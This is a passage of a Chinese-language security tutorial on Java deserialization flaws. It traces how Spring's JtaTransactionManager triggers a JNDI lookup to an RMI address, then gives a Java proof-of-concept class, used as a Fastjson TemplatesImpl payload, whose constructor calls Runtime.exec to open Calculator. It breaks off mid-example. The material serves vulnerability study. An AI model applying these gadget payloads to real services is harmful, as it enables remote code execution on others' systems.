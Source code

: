 先开启 server，再运行 client 后，计算器会直接被打开！<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1634686747806-4edb2701-e52b-4530-abe7-7b52cb3e93cc.webp#clientId=u743221fb-74bb-4&from=paste&id=u189071e1&originHeight=553&originWidth=1080&originalType=url&ratio=1&status=done&style=shadow&taskId=ufd348bf4-16f5-4f31-b757-f6019032720)<br />究其原因，主要是这个类`JtaTransactionManager`类存在问题，最终导致了漏洞的实现。<br />打开源码，翻到最下面，可以很清晰的看到`JtaTransactionManager`类重写了`readObject`方法。<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1634686747815-cedac833-9823-4769-8450-7ee4084dd33a.webp#clientId=u743221fb-74bb-4&from=paste&id=u838d8168&originHeight=617&originWidth=1080&originalType=url&ratio=1&status=done&style=shadow&taskId=u0767d591-e004-46ca-a187-0d9f3ff8772)<br />重点就是这个方法`initUserTransactionAndTransactionManager()`，里面会转调用到`JndiTemplate`的`lookup()`方法。<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1634686747917-2b516269-3025-4bac-9b87-594e0c397d2e.webp#clientId=u743221fb-74bb-4&from=paste&id=u167d8c29&originHeight=218&originWidth=1080&originalType=url&ratio=1&status=done&style=shadow&taskId=u9a261d20-5e42-4e7d-acaa-9627e2da320)<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1634686747965-1da1a27c-f060-4624-9638-7796625b1bb0.webp#clientId=u743221fb-74bb-4&from=paste&id=u52439d04&originHeight=437&originWidth=1080&originalType=url&ratio=1&status=done&style=shadow&taskId=u0fc9ff1b-66e9-4b34-be4c-023e0bb70d5)<br />可以看到`lookup()`方法作用是：Look up the object with the given name in the current JNDI context。<br />也就是说，通过`JtaTransactionManager`类的`setUserTransactionName()`方法执行，最终指向了`rmi://127.0.0.1:1099/Object`，导致服务执行了恶意类的远程代码。
<a name="fYyEl"></a>
#### 2.3、FASTJSON 框架的反序列化漏洞分析
先来看一个简单的例子，程序代码如下：
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class Test extends AbstractTranslet {
    
    public Test() throws IOException {
        Runtime.getRuntime().exec("open /Applications/Calculator.app/");
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
    }


    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```
运行程序之后，同样的直接会打开电脑中的计算器。<br />恶意代码植入的核心就是在对象初始化阶段，直接会调用`Runtime.getRuntime().exec("open /Applications/Calculator.app/")`这个方法，通过运行时操作类直接执行恶意代码。<br />在来看看下面这个例子：
```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;


```